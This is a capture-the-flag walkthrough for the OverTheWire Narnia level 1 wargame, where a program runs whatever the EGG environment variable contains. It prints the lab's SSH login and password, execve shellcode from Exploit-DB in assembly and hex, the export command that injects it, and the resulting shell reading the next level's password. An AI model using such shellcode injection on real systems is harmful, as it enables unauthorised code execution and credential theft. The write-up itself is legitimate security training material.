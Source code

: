 ## Login 

` SSH : ssh narnia1@narnia.labs.overthewire.org -p 2226 `
` Pass : WDcYUTG5ul `

## Solution

First, let’s try to execute the program…

```
narnia1@narnia:~$ cd /narnia/
narnia1@narnia:/narnia$ ./narnia1 
Give me something to execute at the env-variable EGG
```

Hum… It seems that we need to initialize an environment variable named **EGG**.
### Source Code
Let’s clarify that with the source code.

```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

Here, the code will execute anything we put in the **EGG** environment variable, we only need to find a shellcode and set the **EGG** variable. I used a random shellcode from the [Exploit Database](https://www.exploit-db.com/exploits/44594).

```
; https://www.exploit-db.com/exploits/44594
section .text
global _start

_start:
    xor ecx, ecx
    mul ecx
    push ecx
    mov edi, 0x978CD0D0
    mov esi, 0x91969DD0
    not edi
    not esi
    push edi
    push esi
    mov ebx, esp
    mov al, 0xb
    int 0x80
```

Here is the shellcode :

```
\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80
```

Now, let’s export it as an environment variable an re-execute the program.

```
narnia1@narnia:/narnia$ export EGG=`python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'`
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
5agRAXeBdG
```

Done !